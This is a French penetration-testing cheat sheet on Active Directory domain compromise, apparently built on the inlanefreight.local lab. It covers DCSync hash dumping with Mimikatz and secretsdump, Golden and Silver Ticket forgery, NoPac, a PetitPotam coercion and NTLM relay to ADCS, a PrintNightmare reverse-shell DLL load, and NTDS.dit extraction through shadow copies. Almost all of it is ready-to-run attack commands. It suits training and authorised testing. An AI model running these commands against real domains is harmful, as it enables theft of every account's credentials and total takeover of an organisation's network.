 # Compromission de Domaine
## Attaque DCSync
L'attaque DCSync imite un contrôleur de domaine pour demander les secrets d'utilisateurs via la réplication.
### Prérequis
Cette attaque nécessite que l'attaquant dispose des droits suivants:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set
### Exécution avec Mimikatz
```powershell
# Extraire le hash NTLM de l'administrateur de domaine
lsadump::dcsync /domain:inlanefreight.local /user:Administrator

# Extraire les hashes de tous les utilisateurs du domaine
lsadump::dcsync /domain:inlanefreight.local /all /csv
```
### Exécution avec Impacket
```bash
# Extraction des hashes pour un utilisateur spécifique
secretsdump.py -just-dc-user Administrator inlanefreight.local/user:password@dc.inlanefreight.local

# Extraction de tous les hashes
secretsdump.py -just-dc inlanefreight.local/user:password@dc.inlanefreight.local
secretsdump.py -outputfile hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
## Attaques avec Golden Ticket
Un Golden Ticket est un TGT forgé qui donne un accès illimité à toutes les ressources du domaine.
### Création avec Mimikatz
```powershell
# Récupérer le hash NTLM du compte krbtgt
lsadump::dcsync /domain:inlanefreight.local /user:krbtgt

# Créer un Golden Ticket
kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_KRBTGT /user:FakeAdmin /id:500 /ptt

# Vérifier le ticket
klist
```
### Exploitation
```powershell
# Accéder au partage SYSVOL du contrôleur de domaine
dir \\dc.inlanefreight.local\SYSVOL

# Exécuter psexec pour obtenir un shell
.\PsExec.exe \\dc.inlanefreight.local cmd.exe
```
## Attaques avec Silver Ticket
Un Silver Ticket est un TGS forgé qui donne accès à un service spécifique.

```powershell
# Créer un Silver Ticket pour le service CIFS
kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_COMPUTER_ACCOUNT /user:FakeAdmin /service:cifs /target:server.inlanefreight.local /ptt

# Accéder au partage
dir \\server.inlanefreight.local\C$
```
## Exploitation de Vulnérabilités Critiques
### NoPac (SamAccountName Spoofing)

```bash
# Scanner pour la vulnérabilité
python3 scanner.py inlanefreight.local/user:password -dc-ip 10.10.10.10 -use-ldap

# Exploiter pour obtenir un TGT administrateur
python3 noPac.py inlanefreight.local/user:password -dc-ip 10.10.10.10 -dc-host dc01 -shell --impersonate administrator
```
### PetitPotam (NTLM Relay vers ADCS)

```bash
# Configurer le relais NTLM
sudo ntlmrelayx.py -t http://ca.inlanefreight.local/certsrv/certfnsh.asp --adcs --template DomainController

# Déclencher l'authentification
python3 PetitPotam.py attacker.ip dc.inlanefreight.local
```
### PrintNightmare

```powershell
# Exploitation de PrintNightmare
Import-Module .\CVE-2021-34527.ps1
Invoke-Nightmare -DLL "C:\Path\to\reverse.dll"
```
## Shadow Copies pour extraction de NTDS.dit
```powershell
# Créer une copie shadow du volume C:
vshadow.exe -nw -p C:

# Copier la base NTDS.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\temp\ntds.dit.bak

# Exporter la clé SYSTEM
reg.exe save hklm\system C:\temp\system.bak

# Extraire les hashes (sur Kali)
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
## Points Clés

- Les attaques de compromission de domaine sont extrêmement puissantes
- Elles permettent de prendre le contrôle total de l'environnement AD
- Nettoyez les artefacts après avoir démontré la vulnérabilité
- Ces techniques doivent être utilisées avec extrême prudence dans un engagement réel
- Documentez précisément les preuves de concept et les risques associés